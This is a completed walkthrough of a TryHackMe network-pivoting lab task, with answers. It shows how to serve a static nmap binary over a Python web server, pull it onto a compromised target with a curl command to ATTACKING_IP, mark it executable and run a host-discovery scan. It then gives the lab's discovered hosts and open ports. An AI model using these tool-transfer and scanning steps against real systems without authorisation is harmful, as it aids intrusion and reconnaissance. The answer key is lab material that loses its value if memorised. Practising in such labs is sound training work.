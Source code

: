 t's time to put your newfound knowledge to the test!

Download a [static nmap binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap). Rename it to `nmap-USERNAME`, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing.

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Nmap binary):

`sudo python3 -m http.server 80`

Then, on the target:

`curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME   `

![Using cURL and a Python HTTP server to upload nmap to the target](https://assets.tryhackme.com/additional/wreath-network/f621bb960163.png)

---

Now use the binary to scan the network. The command will look something like this:

`./nmap-USERNAME -sn 10.x.x.1-255 -oN scan-USERNAME`

You will need to substitute in your username, and the correct IP range. For example:

`./nmap-MuirlandOracle -sn 10.200.72.1-255 -oN scan-MuirlandOracle`

Here the `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.  

Note that this would also work with CIDR notation (e.g. 10.x.x.0/24).  

Use what you've learnt to answer the following questions!

_**Note:** The host ending in_ `.250` _is the OpenVPN server, and should be excluded from all answers. It is not part of the vulnerable network, and should not be targeted. The same goes for the host ending in_ `.1` _(part of the AWS infrastructure used to create the network) -- this too is out of scope and should be excluded from all answers._  

---

Answer the questions below

1. Excluding the out of scope hosts, and the current host (`.200`), how many hosts were discovered active on the network?  

**`2`**

2. In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)

**`100,150`**

3. Scan the hosts -- which one does _not_ return a status of "filtered" for every port (submit the last octet only)?  

**`150`**

4. Let's assume that the other host is inaccessible from our current position in the network. Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?  

**`80,3389,5985`**

4. We cannot currently perform a service detection scan on the target without first setting up a proxy, so for the time being, let's assume that the services Nmap has identified based on their port number are accurate. (Please feel free to experiment with other scan types through a proxy after completing the pivoting section). Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?  

**`HTTP`**

Now that we have an idea about the other hosts on the network, we can start looking at some of the tools and techniques we could use to access them!

---

**Completed:** _06:19 2024-07-20_
**Author:** z0d